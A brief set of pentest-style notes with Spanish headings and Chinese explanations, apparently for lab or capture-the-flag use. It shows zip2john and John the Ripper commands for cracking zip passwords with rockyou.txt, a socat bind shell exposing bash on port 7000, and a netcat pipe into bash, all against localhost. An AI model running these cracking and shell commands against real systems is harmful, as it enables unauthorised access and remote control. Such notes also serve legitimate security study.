 ###Cambiar su formato
zip2john file.zip > crack.txt

###Descifrado
john --wordlist=dict.txt --rule=all hashes.txt

john --wordlist=rockyou.txt crack.txt


socat TCP-LISTEN:7000,FORK EXEC:bash

此命令使用 `socat` 在端口 7000 上创建 TCP 服务器，并为每个传入连接派生一个新进程，执行 `bash` shell。 本质上，它打开一个端口 (7000) 并允许您通过网络连接到 shell。

nc 127.0.0.1 7000

此命令使用 `nc` (netcat) 连接到端口 7000 上的本地主机 (127.0.0.1)，其中 `socat` 命令正在侦听。 当您运行此命令时，它应该与“socat”创建的 shell 建立连接，从而有效地让您可以访问自己计算机上的远程 shell。


nc 127.0.0.1 5001 | bash | nc 127.0.0.1 5002

该命令本质上连接到端口 5001 上的本地主机，将收到的任何数据发送到“bash”shell，然后将“bash”shell 的输出发送到端口 5002 上的另一个“nc”连接。
